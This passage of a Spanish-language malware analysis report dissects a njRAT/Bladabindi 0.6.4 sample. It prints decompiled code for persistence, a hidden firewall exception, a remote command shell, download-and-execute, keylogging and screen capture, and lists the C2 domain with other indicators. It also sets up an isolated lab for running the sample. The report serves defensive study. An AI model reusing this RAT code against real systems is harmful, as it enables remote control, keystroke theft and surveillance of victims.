| SHA-256 | `02DFB4A65D7D9A44496C9C905C0C62CD64937BA2BBF0B985DEDA805D313A9F5B` |

La configuración reconstruida contiene:

```xml
<TargetFramework>net20</TargetFramework>
<PlatformTarget>x86</PlatformTarget>
<OutputType>WinExe</OutputType>
<UseWindowsForms>True</UseWindowsForms>
```

Por tanto, <mark>`resource-A.exe` está compilado específicamente para `x86`. En un sistema Windows de 64 bits se ejecutaría como proceso de 32 bits bajo WoW64.</mark>

Las referencias incluyen:

```text
Microsoft.VisualBasic
System
System.Drawing
System.Windows.Forms
```

También contiene declaraciones `P/Invoke` hacia:

```text
avicap32.dll
kernel32.dll
ntdll.dll
psapi.dll
user32.dll
```

Estas dependencias confirman que está diseñado específicamente para Windows.


## 5.7. Clases principales del ensamblado extraído

ILSpy identificó:

```text
<Module>
ClassLibrary1.OK
ClassLibrary1.kl
ClassLibrary1.A
```



**Las clases principales son:**

| Clase | Función general |
|---|---|
| `A` | Punto de entrada y coordinación |
| `OK` | Configuración, comunicaciones y ejecución de funciones |
| `kl` | Captura de pulsaciones de teclado |


**El flujo principal puede representarse así:**

```text
A.main
├── procesa argumentos
├── crea o verifica el mutex
├── llama a OK.INS
├── inicia OK.RC
├── inicia kl.WRK
└── mantiene el proceso activo
```



<mark>La clase `OK` concentra la mayor parte de la funcionalidad y la clase `kl` implementa la captura de teclado.</mark>

El análisis funcional detallado de estas clases se desarrolla en el apartado siguiente.


----


# 6. Análisis estático de `resource-A.exe`

Una vez extraído y decodificado el recurso `A`, el resultado se guardó como:

```text
resource-A.exe
```

El objetivo de este apartado es identificar su formato, arquitectura, configuración incrustada y capacidades maliciosas mediante análisis estático, sin ejecutar la muestra.

Para ello se utilizaron:

* Detect It Easy.
* Exeinfo PE.
* ILSpy.
* dnSpyEx.
* CyberChef local.

## 6.1. Identificación y arquitectura

**Detect It Easy identifica `resource-A.exe` como un ejecutable PE32 administrado para Windows:**



Las principales características son:

| Propiedad           | Resultado      |
| ------------------- | -------------- |
| Tamaño              | 29 KiB         |
| Formato             | PE32           |
| Arquitectura        | I386 / x86     |
| Modo                | 32 bits        |
| Subsistema          | Windows GUI    |
| Image Base          | `0x00400000`   |
| Punto de entrada    | `0x00408B9E`   |
| Número de secciones | 3              |
| Compilador probable | VB.NET         |
| Framework           | .NET Framework |
| CLR                 | `v2.0.50727`   |

**Exeinfo PE ofrece una identificación compatible con Visual Basic .NET / Visual Basic 2005:**



Por tanto, `resource-A.exe` es un ensamblado .NET Framework 2.0 compilado para x86. En un sistema Windows de 64 bits se ejecutaría como proceso de 32 bits bajo WoW64.

Deben diferenciarse dos valores de versión:

```text
AssemblyVersion: 0.0.0.0
Versión interna del RAT: 0.6.4
```

La primera corresponde a los metadatos del ensamblado y la segunda a una variable de configuración del malware.

## 6.2. Análisis de entropía

Detect It Easy calcula una entropía global de:

```text
5,60425
```

Las secciones presentan los siguientes valores:

| Sección     |         Tamaño | Entropía | Valoración |
| ----------- | -------------: | -------: | ---------- |
| Cabecera PE |  `0x200` bytes |  2,54168 | Baja       |
| `.text`     | `0x6C00` bytes |  5,64426 | Media      |
| `.rsrc`     |  `0x400` bytes |  4,97018 | Media      |
| `.reloc`    |  `0x200` bytes |  0,08436 | Muy baja   |




La herramienta clasifica aproximadamente el 70 % del archivo como no empaquetado.

A diferencia del contenedor principal, `resource-A.exe` no presenta una entropía próxima a 8 ni evidencias claras de un packer fuerte. La etiqueta `Obfus/Crypted` mostrada por Exeinfo PE debe interpretarse como un posible indicio de ofuscación, no como prueba concluyente de empaquetado.

## 6.3. Estructura del ensamblado

ILSpy reconoce el archivo como:

```text
resource-A (0.0.0.0, .NETFramework, v2.0)
```

El namespace principal es:

```text
ClassLibrary1
```

y contiene tres clases:

| Clase | Función                                                            |
| ----- | ------------------------------------------------------------------ |
| `A`   | Punto de entrada y control inicial                                 |
| `OK`  | Configuración, persistencia, comunicaciones y ejecución de órdenes |
| `kl`  | Captura de pulsaciones de teclado                                  |

La presencia de referencias a `Microsoft.VisualBasic` y de construcciones como `Interaction`, `Conversions`, `Operators` y `ProjectData` indica que el código fue desarrollado originalmente en VB.NET, aunque el descompilador lo represente como C#.

## 6.4. Punto de entrada y control de instancia

El punto de entrada es:

```text
ClassLibrary1.A.main()
```



El método procesa los argumentos recibidos y reconoce una opción de actualización con el formato:

```text
UP:<PID>
```

También comprueba la existencia de un mutex:

```csharp
Mutex.OpenExisting(OK.RG);
ProjectData.EndApp();
```

Si el mutex no existe, crea uno nuevo:

```csharp
bool flag = false;
OK.MT = new Mutex(true, OK.RG, out flag);

if (!flag)
{
    ProjectData.EndApp();
}
```

La variable `OK.RG` contiene:

```text
ba4c12bee3027d94da5c81db2d196bfd
```

Este mecanismo impide que se ejecuten varias instancias simultáneamente.

El argumento:

```text
..
```

provoca una espera de cinco segundos y está relacionado con la ejecución desde los mecanismos de persistencia.

## 6.5. Configuración incrustada

El análisis del `UserString Heap` y de los campos estáticos de la clase `OK` permitió recuperar la siguiente configuración:



| Parámetro             | Valor                                           | Interpretación                 |
| --------------------- | ----------------------------------------------- | ------------------------------ |
| Versión interna       | `0.6.4`                                         | Versión del RAT                |
| Nombre instalado      | `svchost.exe`                                   | Nombre de la copia persistente |
| Directorio            | `TEMP`                                          | Directorio de instalación      |
| Mutex / identificador | `ba4c12bee3027d94da5c81db2d196bfd`              | Identificador de la muestra    |
| Dominio C2            | `dr187187.ddns.net`                             | Servidor de mando y control    |
| Puerto                | `22`                                            | Puerto TCP                     |
| Fin de mensaje        | `[endof]`                                       | Delimitador del protocolo      |
| Clave Run             | `Software\Microsoft\Windows\CurrentVersion\Run` | Persistencia                   |

Esta configuración demuestra que `resource-A.exe` contiene la lógica operativa del malware y no es un recurso pasivo.

## 6.6. Cadena Base64

La variable `VN` contiene:

```text
2KrZhSDYp9mE2KfYrtiq2LHYp9mCINmF2YYg2YLYqNmEINiv2YPYqtmI2LEg2KfZhNi62LHYqNmK2KkgIw==
```





Tras decodificarla desde Base64 se obtiene el texto árabe:



```text
تم الاختراق من قبل دكتور الغربية #
```

Su significado aproximado es:

```text
Hackeado por el Dr. Western / Al-Gharbia
```

Esta cadena puede actuar como etiqueta de campaña, identificador del operador o nombre mostrado en el panel C2. No constituye una atribución personal definitiva.

## 6.7. Instalación y persistencia: `OK.INS()`

El método `OK.INS()` implementa la instalación de la muestra y varios mecanismos de persistencia.

### 6.7.1. Copia en `%TEMP%\svchost.exe`

Las variables de configuración contienen:

```text
DR  = TEMP
EXE = svchost.exe
```

El método construye la ruta con ambos valores y comprueba si ya se está ejecutando desde el destino previsto:

```csharp
if (!OK.CompDir(
    OK.LO,
    new FileInfo(
        Interaction.Environ(OK.DR).ToLower()
        + "\\"
        + OK.EXE.ToLower()
    )))
```

Si la copia no existe o el ejecutable se encuentra en otra ruta, elimina una copia previa y copia el archivo actual:

```csharp
if (File.Exists(
    Interaction.Environ(OK.DR)
    + "\\"
    + OK.EXE))
{
    File.Delete(
        Interaction.Environ(OK.DR)
        + "\\"
        + OK.EXE);
}

File.Copy(
    OK.LO.FullName,
    Interaction.Environ(OK.DR)
    + "\\"
    + OK.EXE,
    true);
```

A continuación ejecuta la copia y finaliza la instancia original:

```csharp
Process.Start(
    Interaction.Environ(OK.DR)
    + "\\"
    + OK.EXE);

ProjectData.EndApp();
```

La ruta resultante es:

```text
%TEMP%\svchost.exe
```

El uso del nombre `svchost.exe` intenta imitar un proceso legítimo de Windows, aunque la ubicación en `%TEMP%` es anómala.

### 6.7.2. Excepción en el firewall

El método intenta añadir el ejecutable a la lista de programas permitidos:

```csharp
Interaction.Shell(
    "netsh firewall add allowedprogram \""
    + OK.LO.FullName
    + "\" \""
    + OK.LO.Name
    + "\" ENABLE",
    AppWinStyle.Hide,
    false,
    -1);
```

La operación se ejecuta de forma oculta.

Su éxito depende de la versión de Windows y de los privilegios del proceso.

### 6.7.3. Persistencia mediante claves Run

Cuando `OK.Isu` está activado, la muestra intenta escribir en las claves Run del usuario y del sistema:

```csharp
OK.F.Registry.CurrentUser
    .OpenSubKey(OK.sf, true)
    .SetValue(
        OK.RG,
        "\"" + OK.LO.FullName + "\" .."
    );
```

También intenta escribir en `HKEY_LOCAL_MACHINE`:

```csharp
OK.F.Registry.LocalMachine
    .OpenSubKey(OK.sf, true)
    .SetValue(
        OK.RG,
        "\"" + OK.LO.FullName + "\" .."
    );
```

La variable `OK.sf` contiene:

```text
Software\Microsoft\Windows\CurrentVersion\Run
```

El nombre del valor es:

```text
ba4c12bee3027d94da5c81db2d196bfd
```

La escritura en `HKLM` puede fallar si el malware no dispone de privilegios administrativos.

### 6.7.4. Copia en la carpeta Startup

Cuando `OK.IsF` está activado, la muestra crea otra copia en la carpeta de inicio:

```csharp
File.Copy(
    OK.LO.FullName,
    Environment.GetFolderPath(
        Environment.SpecialFolder.Startup
    )
    + "\\"
    + OK.RG
    + ".exe",
    true);
```

Después mantiene abierto el archivo:

```csharp
OK.FS = new FileStream(
    Environment.GetFolderPath(
        Environment.SpecialFolder.Startup
    )
    + "\\"
    + OK.RG
    + ".exe",
    FileMode.Open);
```

El nombre de la copia es:

```text
ba4c12bee3027d94da5c81db2d196bfd.exe
```

Por tanto, la muestra utiliza persistencia redundante mediante claves Run y carpeta Startup.

## 6.8. Comunicaciones C2: `OK.RC()`

El método `OK.RC()` mantiene el bucle de recepción de datos desde el servidor remoto.

### 6.8.1. Recepción desde el socket

Cuando existen datos disponibles, reserva un buffer y recibe los bytes:

```csharp
OK.b = new byte[
    OK.C.Client.Available - 1 + 1
];

int num = OK.C.Client.Receive(
    OK.b,
    0,
    OK.b.Length,
    SocketFlags.None);
```

Los datos se almacenan en un `MemoryStream`:

```csharp
OK.MeM.Write(
    OK.b,
    0,
    num);
```

### 6.8.2. Separación de mensajes

El método comprueba si los datos contienen el delimitador `OK.SPL`:

```csharp
byte[] array = OK.MeM.ToArray();

if (!OK.BS(ref array).Contains(OK.SPL))
{
    break;
}
```

El valor de `OK.SPL` es:

```text
[endof]
```

Cuando encuentra el delimitador, divide el flujo:

```csharp
Array array2 = OK.fx(
    OK.MeM.ToArray(),
    OK.SPL);
```

### 6.8.3. Envío al dispatcher

Cada mensaje se procesa mediante `OK.Ind()` en un hilo separado:

```csharp
Thread thread = new Thread(
    delegate(object a0)
    {
        OK.Ind((byte[])a0);
    });

thread.Start(
    RuntimeHelpers.GetObjectValue(
        NewLateBinding.LateIndexGet(
            array2,
            new object[] { 0 },
            null)));
```

Esto demuestra que `OK.RC()` recibe los mensajes del C2 y delega su interpretación en el dispatcher de órdenes.

### 6.8.4. Reconexión automática

Cuando la conexión termina, el malware ejecuta:

```csharp
do
{
    OK.Cn = false;
    Thread.Sleep(2500);
}
while (!OK.connect());

OK.Cn = true;
```

La muestra espera 2,5 segundos e intenta reconectar indefinidamente.


El dominio y el puerto almacenados en la configuración son:

```text
dr187187.ddns.net
22/TCP
```



El puerto 22 no implica el uso de SSH. El código utiliza `TcpClient` y un protocolo propietario delimitado mediante `[endof]`.

## 6.9. Dispatcher de órdenes: `OK.Ind()`

El método `OK.Ind()` recibe un bloque de bytes, lo convierte en texto y lo divide utilizando el separador `OK.Y`:

```csharp
string[] array = Strings.Split(
    OK.BS(ref b),
    OK.Y,
    -1,
    CompareMethod.Binary);

string text = array[0];
```

La variable `text` contiene el nombre de la orden.

El dispatcher no utiliza un `switch`, sino una cadena de comparaciones `if` y `else if`.

## 6.9.1. Gestión de procesos: `proc`

El comando `proc` permite enumerar procesos:

```csharp
Process[] processes =
    Process.GetProcesses();
```

También puede finalizarlos:

```csharp
Process.GetProcessById(
    Conversions.ToInteger(array[j])
).Kill();
```

Otra rama finaliza el proceso y elimina su ejecutable:

```csharp
process2.Kill();

Thread.Sleep(2000);

File.Delete(text7);
```

También puede finalizarlo y volver a iniciarlo:

```csharp
process3.Kill();

Process.Start(text8);
```

## 6.9.2. Shell remota: `rss`, `rs` y `rsc`

El comando `rss` inicia una instancia oculta de `cmd.exe`:

```csharp
OK.Pro.StartInfo.FileName = "cmd.exe";

OK.Pro.StartInfo.RedirectStandardOutput = true;
OK.Pro.StartInfo.RedirectStandardInput = true;
OK.Pro.StartInfo.RedirectStandardError = true;

OK.Pro.StartInfo.UseShellExecute = false;
OK.Pro.StartInfo.CreateNoWindow = true;
OK.Pro.StartInfo.WindowStyle =
    ProcessWindowStyle.Hidden;
```

El comando `rs` introduce órdenes en la entrada estándar:

```csharp
OK.Pro.StandardInput.WriteLine(
    OK.DEB(ref array[1]));
```

El comando `rsc` finaliza la shell:

```csharp
OK.Pro.Kill();
OK.Pro = null;
```

## 6.9.3. Recuperación del keylog: `kl`

El comando `kl` envía el contenido recopilado por el keylogger:

```csharp
OK.Send(
    "kl"
    + OK.Y
    + OK.ENB(ref OK.kq.Logs));
```

El contenido se codifica antes de ser enviado.

## 6.9.4. Descarga y ejecución: `rn`

El comando `rn` puede recibir un archivo codificado en Base64:

```csharp
byte[] array6 =
    Convert.FromBase64String(array[2]);

array5 = OK.ZIP(
    array6,
    ref flag);
```

También puede descargarlo desde una URL:

```csharp
WebClient webClient =
    new WebClient();

array5 =
    webClient.DownloadData(array[2]);
```

Después crea un archivo en `%TEMP%`:

```csharp
string text14 =
    Interaction.Environ("temp")
    + "\\"
    + OK.RN(10)
    + "."
    + array[1];

File.WriteAllBytes(
    text14,
    array5);
```

Finalmente lo ejecuta:

```csharp
Process.Start(text14);
```

## 6.9.5. Carga de plugins: `inv` y `ret`

Los comandos `inv` y `ret` reciben ensamblados codificados en Base64:

```csharp
byte[] array8 =
    Convert.FromBase64String(array[3]);

array7 = OK.ZIP(
    array8,
    ref flag);
```

Después cargan el plugin:

```csharp
object objectValue =
    RuntimeHelpers.GetObjectValue(
        OK.Plugin(array7, "A"));
```

El comando `inv` configura propiedades del objeto y ejecuta el método `start`:

```csharp
NewLateBinding.LateSet(
    objectValue,
    null,
    "h",
    new object[] { OK.H },
    null,
    null);

NewLateBinding.LateSet(
    objectValue,
    null,
    "p",
    new object[] { OK.P },
    null,
    null);

NewLateBinding.LateCall(
    objectValue,
    null,
    "start",
    new object[0],
    null,
    null,
    null,
    true);
```

El comando `ret` recupera el resultado mediante la propiedad o método `GT`:

```csharp
NewLateBinding.LateGet(
    objectValue2,
    null,
    "GT",
    new object[0],
    null,
    null,
    null);
```

El resultado se envía al C2:

```csharp
OK.Send(
    "ret"
    + OK.Y
    + array[1]
    + OK.Y
    + resultado);
```

## 6.9.6. Captura de pantalla: `CAP`

El comando `CAP` crea un bitmap con el tamaño de la pantalla principal:

```csharp
int width =
    Screen.PrimaryScreen.Bounds.Width;

Rectangle bounds =
    Screen.PrimaryScreen.Bounds;

Bitmap bitmap =
    new Bitmap(
        width,
        bounds.Height);
```

Después copia el contenido de la pantalla:

```csharp
graphics.CopyFromScreen(
    0,
    0,
    0,
    0,
    new Size(
        bitmap.Width,
        bitmap.Height),
    CopyPixelOperation.SourceCopy);
```

También intenta dibujar la posición del cursor:

```csharp
Cursor.Default.Draw(
    graphics,
    new Rectangle(
        Cursor.Position,
        new Size(32, 32)));
```

La imagen se convierte a JPEG:

```csharp
bitmap
    .GetThumbnailImage(
        Conversions.ToInteger(array[1]),
        Conversions.ToInteger(array[2]),
        null,
        intPtr)
    .Save(
        memoryStream2,
        ImageFormat.Jpeg);
```

Finalmente se envía al servidor:

```csharp
OK.Sendb(
    memoryStream.ToArray());
```

## 6.9.7. Desinstalación y reinicio: `un`

El comando `un` admite varias acciones.

Desinstalación:

```csharp
if (Operators.CompareString(
    text17,
    "~",
    false) == 0)
{
    OK.UNS();
}
```

Finalización:

```csharp
else if (Operators.CompareString(
    text17,
    "!",
    false) == 0)
{
    OK.pr(0);
    ProjectData.EndApp();
}
```

Reinicio:

```csharp
else if (Operators.CompareString(
    text17,
    "@",
    false) == 0)
{
    OK.pr(0);
    Process.Start(
        OK.LO.FullName);
    ProjectData.EndApp();
}
```

## 6.9.8. Actualización: `up`

El comando `up` puede recibir la nueva versión desde Base64:

```csharp
byte[] array13 =
    Convert.FromBase64String(array[1]);

array12 = OK.ZIP(
    array13,
    ref flag);
```

También puede descargarla desde una URL:

```csharp
WebClient webClient2 =
    new WebClient();

array12 =
    webClient2.DownloadData(array[1]);
```

Después la guarda en `%TEMP%`:

```csharp
string text18 =
    Interaction.Environ("temp")
    + "\\"
    + OK.RN(10)
    + ".exe";

File.WriteAllBytes(
    text18,
    array12);
```

Finalmente ejecuta la nueva versión con el PID de la instancia actual:

```csharp
Process.Start(
    text18,
    "UP:"
    + Conversions.ToString(
        Process.GetCurrentProcess().Id));
```

## 6.9.9. Gestión remota del Registro: `RG`

El comando `RG` obtiene una clave del Registro:

```csharp
RegistryKey key =
    OK.GetKey(array[2]);
```

Puede enumerar subclaves:

```csharp
foreach (
    string text22
    in key.GetSubKeyNames())
{
    // Construcción de la respuesta
}
```

También enumera valores:

```csharp
foreach (
    string text23
    in key.GetValueNames())
{
    key.GetValueKind(text23);
    key.GetValue(text23, "");
}
```

Puede crear o modificar valores:

```csharp
key.SetValue(
    array[3],
    array[4],
    (RegistryValueKind)
        Conversions.ToInteger(array[5]));
```

Puede eliminar valores:

```csharp
key.DeleteValue(
    array[3],
    false);
```

Puede crear subclaves:

```csharp
key.CreateSubKey(
    array[3]);
```

También puede eliminar un árbol completo:

```csharp
key.DeleteSubKeyTree(
    array[3]);
```

Estas operaciones permiten al operador administrar remotamente el Registro de Windows.

## 6.10. Keylogger: `kl.WRK()`

La clase `kl` implementa un keylogger completo.

El método `WRK()` comienza intentando recuperar un log anterior:

```csharp
this.Logs =
    File.ReadAllText(
        this.LogsPath);
```

Después entra en un bucle infinito:

```csharp
for (;;)
{
    // Captura de teclas
}
```

Dentro del bucle recorre los códigos de tecla entre 0 y 255:

```csharp
int num2 = 0;

do
{
    // Procesamiento de la tecla

    num2++;
}
while (num2 <= 255);
```

La pulsación se detecta mediante:

```csharp
if (kl.GetAsyncKeyState(num2) == -32767)
```

Cuando se detecta una tecla, el código la convierte al tipo `Keys`:

```csharp
Keys keys =
    (Keys)num2;
```

Después procesa el carácter:

```csharp
string text =
    this.Fix(keys);
```

Si la conversión produce texto, lo incorpora al registro:

```csharp
if (text.Length > 0)
{
    this.Logs += this.AV();
    this.Logs += text;
}
```

El método `AV()` añade información relacionada con la ventana o aplicación activa antes de registrar la tecla.

La última tecla se conserva en:

```csharp
this.lastKey = keys;
```

Cada 1.000 iteraciones se limita el tamaño del log:

```csharp
int num3 = 20480;

if (this.Logs.Length > num3)
{
    this.Logs =
        this.Logs.Remove(
            0,
            this.Logs.Length - num3);
}
```

Posteriormente lo guarda en disco:

```csharp
File.WriteAllText(
    this.LogsPath,
    this.Logs);
```

El bucle incluye una espera mínima:

```csharp
Thread.Sleep(1);
```

Este comportamiento demuestra que la muestra:

* Recorre continuamente todas las teclas.
* Detecta nuevas pulsaciones mediante `GetAsyncKeyState`.
* Convierte las teclas a texto.
* Registra la aplicación o ventana activa.
* Mantiene un historial local.
* Guarda periódicamente el keylog en disco.

## 6.11. Identificación de la familia

Los siguientes elementos son consistentes con njRAT, también conocido como Bladabindi:

* Versión interna `0.6.4`.
* Clases `A`, `OK` y `kl`.
* Configuración C2 incrustada.
* Uso de `TcpClient`.
* Delimitador `[endof]`.
* Comandos `proc`, `rss`, `kl`, `rn`, `inv`, `ret`, `CAP`, `un`, `up` y `RG`.
* Persistencia como `svchost.exe`.
* Copia en `%TEMP%`.
* Claves Run y carpeta Startup.
* Keylogger basado en `GetAsyncKeyState`.
* Carga de plugins en memoria.

La identificación se considera de alta confianza.

## 6.12. Indicadores de compromiso

| Tipo              | Indicador                                                          |
| ----------------- | ------------------------------------------------------------------ |
| SHA-256           | `02DFB4A65D7D9A44496C9C905C0C62CD64937BA2BBF0B985DEDA805D313A9F5B` |
| Dominio C2        | `dr187187.ddns.net`                                                |
| Puerto            | `22/TCP`                                                           |
| Archivo instalado | `%TEMP%\svchost.exe`                                               |
| Mutex             | `ba4c12bee3027d94da5c81db2d196bfd`                                 |
| Valor Run         | `ba4c12bee3027d94da5c81db2d196bfd`                                 |
| Ruta Run          | `Software\Microsoft\Windows\CurrentVersion\Run`                    |
| Copia Startup     | `ba4c12bee3027d94da5c81db2d196bfd.exe`                             |
| Delimitador C2    | `[endof]`                                                          |
| Versión interna   | `0.6.4`                                                            |
| Framework         | .NET Framework 2.0                                                 |
| Arquitectura      | x86                                                                |

## 6.13. Conclusión

`resource-A.exe` es un ejecutable .NET Framework 2.0 para arquitectura x86 que contiene la lógica operativa del malware extraído del contenedor principal.

El análisis del código demuestra que implementa:

* Instalación en `%TEMP%\svchost.exe`.
* Persistencia mediante claves Run y la carpeta Startup.
* Modificación del firewall.
* Control de instancia mediante mutex.
* Comunicación C2 sobre TCP.
* Reconexión automática.
* Shell remota.
* Gestión de procesos.
* Descarga y ejecución de archivos.
* Actualización y desinstalación.
* Captura de pantalla.
* Administración del Registro.
* Carga de plugins.
* Keylogging.

La estructura, la configuración y los comandos son consistentes con **njRAT/Bladabindi 0.6.4**.

La muestra debe considerarse de riesgo crítico, ya que permite al operador mantener acceso remoto, capturar información del usuario, modificar el sistema y desplegar funcionalidades adicionales.


# 7. Análisis dinámico de la muestra

Tras completar el análisis estático de `resource-A.exe`, se ha procedido a estudiar su comportamiento durante la ejecución en un entorno controlado.


**Los principales objetivos son:**
* Observar la creación y ejecución de procesos.
* Comprobar la copia del ejecutable en `%TEMP%`.
* Identificar modificaciones en el Registro.
* Confirmar la persistencia mediante claves Run y la carpeta Startup.
* Registrar la creación de archivos.
* Analizar las conexiones de red.
* Comprobar la resolución del dominio C2.
* Capturar el tráfico generado por el malware.
* Observar el mecanismo de reconexión.
* Verificar la creación del mutex.
* Detectar posibles cambios en el firewall.
* Comparar el estado del sistema antes y después de la ejecución.

**La ejecución se realizó sobre el payload extraído:**

```text
resource-A.exe
```

El archivo principal `NET_MALWARE_master.exe` no fue necesario en esta fase, ya que el análisis estático confirmó que `resource-A.exe` contiene la lógica operativa del RAT.

---

## 7.1. Preparación del laboratorio

La muestra debe ejecutarse únicamente en una máquina virtual Windows aislada, sin acceso a redes reales ni a información personal.

Para evitar que el malware se comunique con su infraestructura original, se configuró el entorno para que el dominio C2:

```text
dr187187.ddns.net
```

resolviera hacia la propia máquina virtual.

De esta forma, las conexiones permanecen dentro del laboratorio y pueden ser observadas sin enviar tráfico al exterior.

### 7.1.1. Configuración de la máquina virtual

Se utilizó una máquina virtual Windows con las siguientes medidas de seguridad:

* Instantánea creada antes de ejecutar la muestra.
* Adaptador de red aislado o configurado como host-only.
* Acceso directo a Internet deshabilitado.
* Carpetas compartidas desactivadas.
* Portapapeles compartido desactivado.
* Funciones de arrastrar y soltar desactivadas.
* Sin credenciales, archivos personales ni sesiones reales.
* Herramientas de análisis instaladas antes de crear la instantánea.
* Fecha y hora del laboratorio registradas.


### 7.1.2. Herramientas de monitorización

Para observar el comportamiento se prepararon las siguientes herramientas:

| Herramienta                      | Finalidad                                      |
| -------------------------------- | ---------------------------------------------- |
| Process Monitor                  | Archivos, Registro y procesos                  |
| Process Explorer                 | Árbol de procesos, handles y DLL               |
| Regshot                          | Comparación del Registro y sistema de archivos |
| Wireshark                        | Captura de tráfico                             |
| Simulación del servidor C2       | Simulación del servidor C2                     |
| Autoruns                         | Comprobación de persistencia                   |
| Process Hacker o System Informer | Procesos, mutex y handles                      |


### 7.1.3. Registro del estado inicial

Antes de la ejecución se registró el estado inicial del sistema.

Con Regshot se tomó una primera instantánea:

```text
1st shot
```

También se comprobaron las siguientes ubicaciones:

```text
%TEMP%
%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup
```

y las claves:

```text
HKCU\Software\Microsoft\Windows\CurrentVersion\Run
HKLM\Software\Microsoft\Windows\CurrentVersion\Run
```

El objetivo es detectar posteriormente:

* La creación de `%TEMP%\svchost.exe`.
* La creación del fichero del keylogger.
* La copia en la carpeta Startup.
* Los valores Run.
* Las claves utilizadas para guardar configuración o plugins.

### 7.1.4. Red aislada

Las configuraciones recomendadas son:

```text
Host-only
```

o:

```text
Internal Network
```


### 7.1.5. Redirección del dominio C2 mediante `hosts`

El código estático mostró que la muestra intenta conectarse a:

```text
dr187187.ddns.net:22
```

Para impedir que el dominio resuelva hacia una dirección externa, se modificó el archivo:

```text
C:\Windows\System32\drivers\etc\hosts
```

El editor debe ejecutarse con privilegios de administrador.

Se añadió la siguiente línea:

```text
127.0.0.1 dr187187.ddns.net
```

Con esta configuración, cualquier intento de resolver el dominio devuelve la dirección loopback de la propia máquina virtual:

```text
dr187187.ddns.net → 127.0.0.1
```

Después se vació la caché DNS:

```cmd
ipconfig /flushdns
```

La resolución puede verificarse mediante:

```cmd
ping dr187187.ddns.net
```

El resultado debe mostrar:

```text
Haciendo ping a dr187187.ddns.net [127.0.0.1]
```

También puede comprobarse mediante PowerShell:

```powershell
[System.Net.Dns]::GetHostAddresses("dr187187.ddns.net")
```


### 7.1.6. Simulación del servidor C2

La modificación del archivo `hosts` solo hace que el dominio resuelva hacia la máquina virtual. No crea un servicio TCP.

Si no existe ningún proceso escuchando en el puerto 22, la conexión será rechazada y el malware ejecutará continuamente su mecanismo de reconexión:

```csharp
do
{
    OK.Cn = false;
    Thread.Sleep(2500);
}
while (!OK.connect());
```

Para permitir que la conexión se establezca y evitar que el proceso permanezca únicamente en el bucle de reconexión, se debe iniciar un servicio local en:

```text
127.0.0.1:22
```

La opción recomendada es utilizar FakeNet-NG, ejecutado como administrador.

FakeNet-NG permite:

* Simular servicios de red.
* Registrar conexiones.
* Capturar datos enviados por la muestra.
* Evitar comunicaciones externas.
* Mantener la conexión dentro del laboratorio.
* Identificar el protocolo utilizado por el RAT.

La ejecución debe realizarse antes de iniciar el malware:

```cmd
fakenet.exe
```

También puede utilizarse Ncat como listener TCP sencillo:

```cmd
ncat.exe -l -k -p 22
```

Los parámetros indican:

```text
-l  → modo escucha
-k  → mantener el listener para varias conexiones
-p  → puerto
22  → puerto configurado en el malware
```

Antes de ejecutar la muestra puede verificarse el puerto con:

```cmd
netstat -ano | findstr :22
```

Debe aparecer una entrada similar a:

```text
TCP    0.0.0.0:22    0.0.0.0:0    LISTENING
```

También puede comprobarse con PowerShell:

```powershell
Test-NetConnection dr187187.ddns.net -Port 22
```

El resultado esperado es:

```text
TcpTestSucceeded : True
```

La configuración completa queda así:

```text
resource-A.exe
      │
      ├── resuelve dr187187.ddns.net
      │
      ▼
C:\Windows\System32\drivers\etc\hosts
      │
      ├── 127.0.0.1 dr187187.ddns.net
      │
      ▼
127.0.0.1:22
      │
      ▼
FakeNet-NG / Ncat
```

De esta forma, la muestra cree que está conectando con el servidor configurado, pero toda la comunicación permanece en la máquina virtual.

### 7.1.7. Comprobación de conflictos en el puerto 22

Antes de iniciar el listener se debe verificar que ningún otro servicio esté utilizando el puerto 22:

```cmd
netstat -ano | findstr :22
```

Si existe un servidor OpenSSH u otro proceso escuchando en ese puerto, debe detenerse dentro del laboratorio o configurarse FakeNet-NG para interceptar la conexión.

El PID puede identificarse mediante:

```cmd
tasklist /FI "PID eq <PID>"
```

No debe ejecutarse simultáneamente un servicio SSH real en el mismo puerto, ya que podría interferir con el análisis.

### 7.1.8. Preparación de Wireshark

Wireshark debe iniciarse antes de la muestra.

Si la conexión utiliza `127.0.0.1`, debe capturarse la interfaz de loopback correspondiente. En Windows puede aparecer como:

```text
Adapter for loopback traffic capture
```

o:

```text
Npcap Loopback Adapter
```

El filtro de visualización recomendado es:

```text
tcp.port == 22
```

Para mostrar únicamente el dominio, cuando exista tráfico DNS:

```text
dns.qry.name == "dr187187.ddns.net"
```

No obstante, cuando se utiliza el archivo `hosts`, normalmente no se genera una consulta DNS, ya que la resolución se realiza localmente.

### 7.1.9. Preparación de Process Monitor

Antes de ejecutar la muestra se configuraron filtros en Process Monitor.

Filtro por nombre del ejecutable:

```text
Process Name is resource-A.exe
```

Después de la copia también debe incluirse:

```text
Process Name is svchost.exe
```

La segunda entrada debe interpretarse con cautela, ya que Windows contiene procesos legítimos con ese nombre. La ruta permite diferenciarlos:

```text
Legítimo:
C:\Windows\System32\svchost.exe

Muestra:
%TEMP%\svchost.exe
```

También pueden aplicarse filtros por operaciones:

```text
CreateFile
WriteFile
RegCreateKey
RegSetValue
Process Create
Process Exit
TCP Connect
```

Y por rutas:

```text
\Temp\
\CurrentVersion\Run
\Startup\
```

### 7.1.10. Preparación de Regshot

Antes de ejecutar el malware se tomó una primera instantánea del Registro y del sistema de archivos.

Después de finalizar la observación se tomará una segunda instantánea:

```text
2nd shot
```

La comparación permitirá identificar:

* Nuevos valores Run.
* Claves creadas por la muestra.
* Cambios en variables de entorno.
* Archivos copiados.
* Entradas de configuración.
* Artefactos de persistencia.

### 7.1.11. Ejecución con usuario estándar y administrador

La primera ejecución debe realizarse con un usuario estándar.

Esto permite comprobar qué operaciones puede efectuar sin elevación, especialmente:

```text
HKCU\Software\Microsoft\Windows\CurrentVersion\Run
Carpeta Startup del usuario
%TEMP%
```

La escritura en:

```text
HKLM\Software\Microsoft\Windows\CurrentVersion\Run
```

y la modificación del firewall pueden fallar sin privilegios administrativos.

Posteriormente puede realizarse una segunda prueba con privilegios elevados, siempre restaurando previamente la instantánea, para comprobar si la conducta cambia.

No deben compararse ambos escenarios sobre una misma máquina ya modificada.


### 7.1.12. Precauciones

La entrada del archivo `hosts` debe permanecer activa durante toda la prueba:

```text
127.0.0.1 dr187187.ddns.net
```

No debe eliminarse mientras el malware se encuentre en ejecución.

Tampoco debe habilitarse Internet después de ejecutar la muestra, ya que cualquier fallo en la configuración podría permitir una comunicación real con el C2.

